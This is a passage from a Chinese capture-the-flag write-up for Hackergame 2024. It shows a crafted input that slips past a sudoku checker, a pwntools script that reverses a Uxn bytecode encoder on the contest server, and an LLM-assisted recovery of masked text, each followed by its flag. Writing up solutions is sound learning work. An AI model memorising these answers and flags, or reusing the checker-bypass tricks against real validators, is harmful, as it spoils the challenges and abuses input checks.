又因为 `SudokuChecker()` 里会把 `i==j` 的情况赋值为 0，所以我们的输入中不能包括 0，但这 15 个不同的数已经足够我们填出一个数独了。  
最终构造的 `input.json` 如下：（是的我是手填的 solution）

```python
s = """900000100
800000200
700000300
001000006
020000070
003000000
010000060
002000007
030000000"""
d["unsolved_grid"] = [[int(x) for x in y] for y in s.split("\n")]
d["solved_grid"] = [
    [ 9,  6, -1,  2,  5,  8,  1,  4, -2],
    [ 8,  5, -2,  1,  4,  7,  2, -1,  9],
    [ 7,  4, -3, -1,  6,  9,  3,  5,  8],
    [ 4,  7,  1,  9,  2,  5,  8,  3,  6],
    [ 5,  2,  8, -2,  3,  4,  9,  7,  1],
    [ 6,  9,  3,  7,  1, -1,  4, -2,  2],
    [-1,  1,  7,  4,  8,  3,  5,  6, -3],
    [-2,  8,  2,  5, -3,  1, -1,  9,  7],
    [-3,  3,  9,  6,  7,  2, -2,  8,  4],
]
with open("input2.json", "w") as f:
    json.dump(d, f)
```

**`flag{yOu_5h0wed_super_talent_in_sudoku_are_you_a_genius_e5492f1b78}`**


## 神秘代码 2

> 作者敢再把 [documentation](https://wiki.xxiivv.com/site/uxntal_opcodes.html) 写乱一点吗😡

### 你好，___（三个字母）

根据收到的字节码前缀阴差阳错的直接搜到了这门叫 Uxn Tal 的语言。但是他的 documentation 写的真的是太！乱！！了！！！  
这周被 reading 淹没的我决定还是不要试图去理解这个字节码了...直接测试各种输入对输出的影响。  
试了一圈发现每 3 个字节的输入对应的 4 个字节的输出是不变的，所以应该是将输入的每 6 bit 映射到一个字节上了。  
于是直接遍历所有 6 bit 数把映射反过来即可压缩后的内容，解压得到 flag。

如果想运行以下代码的话请自行查找并安装 Uxn 的解释器 `uxncli`。

```python
import subprocess
import zlib
from pwn import *

r = remote("202.38.93.141", 32100)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())

for _ in range(4):
    r.recvline()
r.sendline(b"1")
code = r.recvline().decode().strip()
target = r.recvline().decode().strip()

code = base64.b64decode(code)
with open("1.rom", "wb") as f:
    f.write(code)

def test(l):
    output = subprocess.Popen(
        ["uxn/uxncli", "1.rom", bytes(l)], stdout=subprocess.PIPE
    ).communicate()[0]
    return output.decode()

d = {}
for i in range(2**6):
    x = (i << 2) + 1
    ret = test([x])
    d[ret[0]] = i

b = b""
l = []
for c in target:
    if c not in d:
        l.append(0)
    else:
        l.append(d[c])
    if len(l) == 4:
        x = (l[0] << 18) | (l[1] << 12) | (l[2] << 6) | l[3]
        l = []
        b += x.to_bytes(3, "big")

print(zlib.decompress(b[:-1]).decode())
```

**`flag{Y0u_guessed_r1gh7!N0w_l34rn_uxn!!!_f729e337c3aa}`**


## 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」

> 我的 AI 题不可能这么可爱

### 「行吧就算标题可以很长但是 flag 一定要短点」

这题一上来感觉就是一个 modified beam search，按照打码的规则进行剪枝。  
但是在我的笔记本上搭 `llama_cpp_python` 的环境之前掉过好几次坑，索性看看能不能把第一问爆破出来。

[o1-preview 在思考了整整 1 分钟后](https://chatgpt.com/share/67305ad6-b17c-800d-9bef-a56687a06a81)直接 decode 出来了几乎正确的结果。我自己阅读了一下感觉全文通顺，但是哈希就是对不上。  
返工给 o1-preview 思考了将近 2 分钟后便把 `race` 改成了 `game`，成功得到正确结果。  
~~事实证明即使是 LLM 多思考一会也是有益的~~

> In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The **game** was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.

**`flag{llm_lm_lm_koshitantan_fa7b655c38bc8847}`**

<!--# 后记-->